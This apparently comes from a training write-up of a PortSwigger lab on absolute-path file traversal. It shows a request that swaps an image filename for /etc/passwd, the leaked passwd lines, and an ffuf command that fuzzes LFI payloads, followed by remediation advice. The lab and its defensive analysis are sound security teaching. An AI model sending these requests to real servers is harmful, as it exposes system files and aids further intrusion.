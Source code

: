 # Absolute Path Bypass  (PortSwigger Lab)

## File Inclusion Vulnerabilities - Lab Analysis

### **Lab: File Path Traversal - Absolute Path Bypass**

#### **Lab URL**

[PortSwigger Lab: File Path Traversal - Absolute Path Bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

***

### **Objective**

The goal of this lab is to exploit a **Path Traversal vulnerability** by bypassing directory traversal restrictions using absolute paths to retrieve the contents of the `/etc/passwd` file. This demonstrates how inadequate input validation allows attackers to access sensitive system files.

***

### **Understanding the Vulnerability**

* The web application dynamically includes files based on user input but does not properly validate the `filename` parameter.
* Instead of relying on directory traversal sequences (`../`), an attacker can attempt to reference files using absolute paths (e.g., `/etc/passwd`).
* This attack can be automated using tools like **Burp Suite** and **FFUF** to identify vulnerable endpoints and test different payloads.

***

### **Step-by-Step Solution**

#### **Step 1: Generate Traffic**

* Navigate to the lab and interact with the web application to identify how images are retrieved.
*   Look for a request similar to:

    ```plaintext
    GET /product?filename=7.jpeg HTTP/1.1
    Host: target-website.com
    ```
* The `filename` parameter is dynamically used to fetch an image file.

***

#### **Step 2: Intercept and Modify the Request**

* Open **Burp Suite** and enable **Intercept** mode.
* Capture the request containing the `filename` parameter.
*   Modify the `filename` parameter to directly reference an absolute path:

    ```plaintext
    GET /product?filename=/etc/passwd HTTP/1.1
    Host: target-website.com
    ```
* Forward the modified request and observe the response.

***

#### **Step 3: Verify Exploitation**

*   If successful, the server will return the contents of `/etc/passwd`, which includes system user information:

    ```plaintext
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ```
* This confirms that the application is vulnerable to absolute path traversal, as it does not restrict direct file access.

***

### **Alternative Approach: Automating with FFUF**

1.  **Use FFUF to Identify File Inclusion Paths**:

    ```bash
    ffuf -u http://target.com/product?filename=FUZZ \
    -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
    -mc 200,301,302,307,401,500
    ```
2. **Analyze the Responses**:
   * Check for HTTP 200 responses containing sensitive file contents.
   * Identify patterns that indicate successful file retrieval.

***

### **Why This is an Example of Path Traversal**

#### **Characteristics of the Vulnerability**

1. **Unvalidated User Input**: The application allows user-controlled input in file paths without validation.
2. **Direct File Inclusion via Absolute Paths**: Instead of traversing directories (`../`), attackers can reference files using full system paths.
3. **Exploitation by Accessing System Files**: The attack retrieves sensitive system files, exposing potential security risks.

#### **Security Implications**

* **Information Disclosure**: Accessing `/etc/passwd` reveals system usernames, aiding further attacks such as brute-force logins.
* **Potential Remote Code Execution**: If an attacker can write to a file, they may escalate to executing arbitrary commands on the server.

***

### **Remediation Strategies**

1. **Sanitize User Input**
   * Implement strict validation to restrict file paths to allowed values.
   * Use an allowlist approach rather than a blocklist to prevent circumvention.
2. **Restrict File Access**
   * Limit access to specific directories using security mechanisms such as `open_basedir` in PHP.
   * Use application-level controls to prevent unauthorized file access.
3. **Monitor and Log Suspicious Requests**
   * Implement logging for file access attempts and analyze logs for anomalies.
   * Set up alerts for requests targeting system files like `/etc/passwd`.
4. **Use Secure File Inclusion Practices**
   * Hardcode file paths where possible instead of allowing dynamic input.
   * Prevent absolute path references by normalizing and resolving paths before inclusion.

***

### **Conclusion**

This lab demonstrates how failing to validate user input properly enables **Path Traversal via Absolute Paths**, allowing attackers to directly access restricted files. Effective input validation, strict access controls, and continuous monitoring are critical to mitigating this vulnerability. Organizations should proactively conduct security assessments to detect and address these risks before exploitation occurs.
